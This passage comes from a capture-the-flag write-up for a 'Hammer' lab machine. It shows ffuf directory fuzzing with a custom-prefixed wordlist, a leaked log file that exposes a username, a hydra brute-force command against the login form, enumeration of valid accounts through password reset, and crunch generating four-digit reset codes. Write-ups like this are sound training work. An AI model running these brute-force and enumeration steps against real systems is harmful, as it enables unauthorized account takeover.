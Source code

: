 ```sh
output_file="output.txt"

# Ensure the output file is empty before starting
> "$output_file"

# Iterate through each line of the input file
while IFS= read -r line; do
    # Prefix the line with "hmr_" and append to the output file
    echo "hmr_$line" >> "$output_file"
done < "$input_file"

echo "Processing complete. Check $output_file for the results."
```
4. Run the script with initial dictionary used `./prefix_words.sh /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt`
5. Now we can run ffuf again with the newly created dictionary `ffuf -w /home/kali/Documents/CTF/output.txt -u http://10.10.84.254:1337/FUZZ -s -c -v` as a result we have a new list of directories found:
```sh
hmr_images
hmr_css
hmr_js
hmr_logs
```
6. Checking the content of `hmr_logs` directory will reveal a log file containing an username: `tester@hammer.thm`
```sh
[Mon Aug 19 12:00:01.123456 2024] [core:error] [pid 12345:tid 139999999999999] [client 192.168.1.10:56832] AH00124: Request exceeded the limit of 10 internal redirects due to probable configuration error. Use 'LimitInternalRecursion' to increase the limit if necessary. Use 'LogLevel debug' to get a backtrace.
[Mon Aug 19 12:01:22.987654 2024] [authz_core:error] [pid 12346:tid 139999999999998] [client 192.168.1.15:45918] AH01630: client denied by server configuration: /var/www/html/
[Mon Aug 19 12:02:34.876543 2024] [authz_core:error] [pid 12347:tid 139999999999997] [client 192.168.1.12:37210] AH01631: user tester@hammer.thm: authentication failure for "/restricted-area": Password Mismatch
[Mon Aug 19 12:03:45.765432 2024] [authz_core:error] [pid 12348:tid 139999999999996] [client 192.168.1.20:37254] AH01627: client denied by server configuration: /etc/shadow
[Mon Aug 19 12:04:56.654321 2024] [core:error] [pid 12349:tid 139999999999995] [client 192.168.1.22:38100] AH00037: Symbolic link not allowed or link target not accessible: /var/www/html/protected
[Mon Aug 19 12:05:07.543210 2024] [authz_core:error] [pid 12350:tid 139999999999994] [client 192.168.1.25:46234] AH01627: client denied by server configuration: /home/hammerthm/test.php
[Mon Aug 19 12:06:18.432109 2024] [authz_core:error] [pid 12351:tid 139999999999993] [client 192.168.1.30:40232] AH01617: user tester@hammer.thm: authentication failure for "/admin-login": Invalid email address
[Mon Aug 19 12:07:29.321098 2024] [core:error] [pid 12352:tid 139999999999992] [client 192.168.1.35:42310] AH00124: Request exceeded the limit of 10 internal redirects due to probable configuration error. Use 'LimitInternalRecursion' to increase the limit if necessary. Use 'LogLevel debug' to get a backtrace.
[Mon Aug 19 12:09:51.109876 2024] [core:error] [pid 12354:tid 139999999999990] [client 192.168.1.50:45998] AH00037: Symbolic link not allowed or link target not accessible: /var/www/html/locked-down
```
7. Check the login `POST` request and get info to build a brute force attack with `hydra`:
```sh
hydra -l tester@hammer.thm -P /usr/share/wordlists/rockyou.txt 10.10.84.254 -s 1337 http-post-form "/:email=tester@hammer.thm&password=^PASS^:Invalid Email or Password"
```
8. The brute force on login is not working so I looked over password reset mechanism:
9. If you try to reset password for an invalid email address you will get an error message saying that email does not exist
10. When you try to reset password for user `tester@hammer.thm` you will be prompted to enter a four digit code in a time frame
11. This way you can validate the email is in use and open a new attack surface
12. Let's generate a list of four digit codes using `crunch 4 4 0123456789 -o 4digits.txt`